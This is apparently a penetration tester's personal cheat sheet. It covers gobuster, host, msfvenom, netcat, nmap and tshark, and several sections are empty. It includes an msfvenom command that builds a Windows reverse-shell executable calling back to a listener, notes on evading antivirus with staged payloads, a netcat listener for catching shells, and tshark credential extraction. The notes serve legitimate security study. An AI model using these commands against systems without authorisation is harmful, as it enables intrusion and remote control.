


# Tools
List of commonly used tools and the processes of using them.

- [Tools](#tools)
  - [BurpSuite](#burpsuite)
  - [Dirbuster](#dirbuster)
  - [Ffuf](#ffuf)
  - [GoBuster](#gobuster)
  - [Hashcat](#hashcat)
  - [Host](#host)
  - [Metasploit](#metasploit)
  - [Msfvenom](#msfvenom)
  - [Netcat](#netcat)
  - [NMAP](#nmap)
    - [Basic Scanning](#basic-scanning)
    - [Port Scan from a File](#port-scan-from-a-file)
  - [Socat](#socat)
  - [TCPDump](#tcpdump)
  - [TShark](#tshark)
  - [Wireshark](#wireshark)

## BurpSuite
## Dirbuster
## Ffuf
## GoBuster
GoBuster - Site enumeration tool and enumerates through directories specified by a wordlist. Returns an HTTP status code.

**Basic Usage**

gobuster dir -u <.URL> -w <.wordlist location>

* Example: gobuster dir -u <.URL> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

  

**Search for Extensions**

It is very useful to also search by extensions using -x for .php, html, and js. This is especially useful for finding pages like login.php, admin.php, etc

* Example: gobuster dir -x .php,.txt,.html,.js -u <.URL> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

**Increase Threads**

Increasing the number of threads speeds up searching, but can also result in errors. The default number of threads is 10. Increasing to 40 has proven successful with minimal errors produced.

* Example: gobuster dir -u <.URL> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64

  

**DNS Mode**

Useful for brute-forcing subdomains

Basic Usage:

gobuster dns -d <domain> -w <wordlist location>

* Example: gobuster dns -d mydomain.thm -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
* Useful flags in this:
  • -c, -i, -r

**VHOST mode**

Used for brute-force virtual hosts

* gobuster vhost -u https://example.com -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt

**Kali Default Wordlists**

* /usr/share/wordlists/dirbuster/directory-list-2.3-*.txt
* /usr/share/wordlists/dirbuster/directory-list-1.0.txt
* /usr/share/wordlists/dirb/big.txt
* /usr/share/wordlists/dirb/common.txt
* /usr/share/wordlists/dirb/small.txt
* /usr/share/wordlists/dirb/extensions_common.txt - Useful for when fuzzing for files!

## Hashcat
## Host
The host command translates urls to an IP address. Keep in mind, host may translate to the IP of the NAT or Firewall. Further recon needed.

host <.URL>
* example: host www.megacorpone.com

  

Host can be used to perform enumeration to identify CNAME, TXT, MX, NS, etc using appropriate flags.
* Use -t (type) followed by CNAME, mx, ns, etc
* host -t mx megacorpone.com (mx = mail exchange)
  
  

## Metasploit
## Msfvenom
Part of metasploit - msfvenom is used to generate code for reverse and bind shells.

**Standard Syntax**

* msfvenom -p <PAYLOAD> <OPTIONS>

* example: msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>

  * -p payload
  * -f <.format> - specifies the output format. 
  * -o <.file> - The output location and filename for the generated payload.
  * LHOST=<.IP> - Specifies the IP to connect back to.
  * LPORT=<.port> - The port on the local machine to connect back to.

**Staged**

Payload sent in two parts.

* First stage (stager) piece of code executed directly on the server that connects back to a waiting listener, but does not contain any reverse shell code itself. 
* Listener uses the connection to load a payload and executes it directly without it touching the local disk to bypass AV. 
* Staged payloads require a special listener like Metasploit multi/handler.
* Denoted with the / symbol

**Stageless**

Payloads are entirely self-contained in one piece of code that when executed sends a shell back to the waiting listener. Easier to use and catch, but easier for AV and IDP to discover and remove. Denoted with the _ symbol

**Meterpreter shell**

Metasploits own brand of shell which contain some inbuilt functionality such as file uploads and downloads, along with post-exploitation tools.

**Payload Naming Convention**

Basic convention = <OS>/<architecture>/<payload> 
* Example: linux/x86/shell_reverse_tcp - Generates a stageless reverse shell on an x86 Linux target
* Example: windows/shell_reverse_tcp - 32-bit Windows, arch not specified
* Example Win64: windows/x64/meterpreter/reverse_tcp - 64-bit Windows

msfvenom --list payloads - will list all available payloads. 
* Can be piped with grep 

## Netcat
Netcat is utility which reads and writes data across network connections, using TCP or UDP protocols

**Connecting to a remote TCP/UDP Port**
* nc -nv ip port
  * -n: Skip DNS name resolution
  * -v: Add verbosity

* Example: nc -nv 192.168.244.129 4444
  * This would attempt to connect to the IP address 192.168.244.129 on port 4444.

**Listening on a TCP/UDP Port**

Used for catching an incoming connection on a local host such as a reverse shell from a remote computer.

* nc -nlvp 4444
  * -n	Disable name resolution
  * -l	Create listener
  * -v	Add verbosity
  * -p	Specify listening port number

* Creates a netcat listener on port 4444

## NMAP
### Basic Scanning
nmap -sn <ip range>
Start with a ping scan (-sn flag) with the ip range to identify which machines are active within the IP range. 
It will not do any port enumeration. Ports 80 and 443 are pinged and target may send response when running without sudo. Conducts 3 way handshake.
When running as sudo also sends an ICMP packet and a timestamp request. example nmap -sn 192.168.128.1-254

### Port Scan from a File
Nmap –p80 -iL <.file-name>
Nmap scan of port (-p) 80 from file (-iL) file name.
Example: nmap –p80 –iL scan-results.txt

Can use grep 'scan report' to filter out unnecessary stuff and just get the IPs found
sudo nmap -sn 192.168.128.1-254 | grep 'scan report'

For additional filtering, use the cut command to just print the IP addresses
    • sudo nmap -sn 192.168.128.1-254 | grep 'scan report' | cut -d " " -f 5
        ○ Using the example output from above, we can cut so only the IP addresses are listed. This would be handy for outputting the IPs to a file. 

cut -d " " - cut output (d) delimiter by spaces (" "). The field (f) that has the info we want (the IP address) is in the 5th field, counting left to right.

## Socat
## TCPDump
## TShark
TShark is a commandline tool that can perform packet analysis. Similar functionality to Wireshark.

tshark –color – wireshark-like colourised output
* tshark -r <.filename> --color

tshark –z filter
* Set a filter for specific types. Use –z help for more
  * Focus on a specific protocol
    * Tshark –r demo.pcapng -z io,phs,udp -q

**Basic Filtering**
tshark -r <.filename> -Y 'ip.addr == <.IP>'
tshark -r <.filename> -Y 'http'
tshark -r <.filename> -Y 'http.response.code == 200'
tshark -Y 'ip.addr == <.IP>'
tshark -Y 'ip.src == <.IP>'
tshark -Y 'ip.dst == <.IP>'
tshark -Y 'tcp.port == <.PORT>'
tshark -Y 'tcp.srcport == <.PORT>'

Can use | n1 to get numbered list of the output.

**Statistics**
* Statistics | Packet length
  * Use –z plen,tree –q to view packet lengths tree
    * Tshark –r demo.pcapng -z plen,tree -q
* Statistics | Endpoints - overview unique endpoints and see number of packets associated with each
  * -z endpoints,ip -q
* Statistics | Conversations - overview traffic between two particular points
  * -z conv,ip -q
* Statistics | Expert Info – automatic comments provided by wireshark
  * -z expert -q
* Statistics | IPv4 and IPv6
  * -z ptype,tree –q – summary of hosts
  * -z ip_hosts,tree –q – IPv4 statistics
  * -z ipv6hosts,tree -q - IPv6 statistics
  *  -z ip_srcdst,tree –q – Source and Destination IP Addresses
    *  -z dests,tree –q - IPv4
    *  -z ipv6_dests,tree –q IPv6
* Statistics DNS
  * -z dns,tree -q
* Statistics HTTP
  * -z http,tree –q – packet and status counter for HTTP
  * -z http2,tree –q - HTTP2
  * -z http_srv,tree –q – load distribution
  * -z http_req,tree –q - requests
  * -z http_seq,tree –q – requests and responses
  
**Streams, Objects and Credentials**
* -z follow,tcp,ascii,0 –q – tcp streams
* -z follow,udp,ascii,0 –q - udp streams
* -z follow,http,ascii,0 –q – http streams
* Can filter  packets and follow streams by using the parameters
* tshark –r <.file> --export-objects http,/home/ubuntu/Desktop/extracted-by-tshark
* Can detect and collect cleartext credentials from FTP, HTTP, IMAP, POP and SMTP
  * -z credentials -q
  
**Advanced Filtering**

Contains – search a value inside a packet, case sensitive, similar to Wireshark find option. Comparison operator to search value inside packets similar to Find option.

*Example*
* tshark –r demo.pcapng -Y 'http.server contains "Apache"'
* tshark –r demo.pcapng -Y 'http.server contains "Apache"' -T fields –e ip.src -e ip.dst -e http.server -E header=y

Matches – Search a pattern inside packets, supports regex, case insensitive, complex queries have a margin of error. Search a pattern of a regular expression, like find all .php and .html pages

*Example*
* tshark –r demo.pcapng -Y 'http.request.method matches "(GET|POST)"'
* tshark –r demo.pcapng -Y 'http.request.method matches "(GET|POST)"' -T fields –e ip.src -e ip.dst -e http.request.method -E header=y
* Contains and match operators cannot be used with fields consisting of integer values
* HEX and regex values instead of ASCII have better chance of a match

  • -T – Main Filter 
    ○ -T fields
  • -e – Target Field. Need to use for each field you want to display
    ○ -e ip.src -e ip.dst
  • -E – Show Field Name
    ○ -E header=y

**Looking for time stamps**
-T fields –e frame.time

Extract Info
* Hostname
  * tshark –r hostnames.pcapng -T fields –e dhcp.option.hostname
  * Extract hostname from DHCP packets, may contain duplicate values. Can use pipes to clear up.

* tshark –r hostnames.pcapng -T fields –e dhcp.option.hostname | awk NF |  sort -r | uniq -c | sort-r
  * Awk NF – remove empty lines
  * Sort –r – sort recursively before handling the values
  * Uniq –c – show unique values, but calculate and show the number of occurences
  * Sort –r – final sort process, show output/results from high to low

**DNS Queries**
* Tshark –r dns-queries.pcap -T fields –e dns.qry.name | awk NF | sort –r | uniq –c | sort –r

**User Agents**
* Tshark –r user-agents.pcap -T fields –e http.user_agent | awk NF | sort –r | uniq –c | sort –r

## Wireshark
